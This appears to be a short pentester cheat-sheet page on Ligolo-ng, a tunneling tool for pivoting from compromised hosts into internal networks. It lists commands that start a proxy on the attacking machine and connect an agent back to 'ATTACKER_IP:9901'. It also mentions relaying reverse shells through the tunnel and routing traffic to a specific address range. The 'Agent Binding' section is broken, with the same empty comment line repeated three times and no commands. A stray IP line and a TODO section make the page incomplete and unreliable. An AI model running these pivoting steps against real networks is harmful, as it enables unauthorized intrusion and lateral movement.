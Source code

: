 ```yaml
---
description: >-
  An advanced, yet simple, tunneling tool that uses a TUN interface. Ligolo-ng
  is a simple, lightweight and fast tool that allows pentesters to establish
  tunnels from a reverse TCP/TLS connection using
---
```


# Ligolo-Ng

{% embed url="https://github.com/tnpitsecurity/ligolo-ng" %}

![](../../.gitbook/assets/283c070bdb1c41b5a73fb0bc6390e311.png)

### Setup Ligolo-ng

`Creating a Tun Interface`

```
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

`Connecting to a Ligolo-Agent`

```
# 1. On the attacking machine :
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. On each compromised host with the network that you want to pivot to
./agent -connect ATTACKER_IP:9901
```

### Agent Binding/Listening

`Agent Binding/listening will allow you to capture a reverse shell from an internal network and forward it through the ligolo VPN. You can then launch a netcan from the attacking machine`

```
# 1. On the attacking machine :

# 1. On the attacking machine :
# 1. On the attacking machine :
```

```
132.227.118.20
sudo ip route add 132.227.118.0/24 dev ligolo
```



### Use Cases&#x20;

TODO

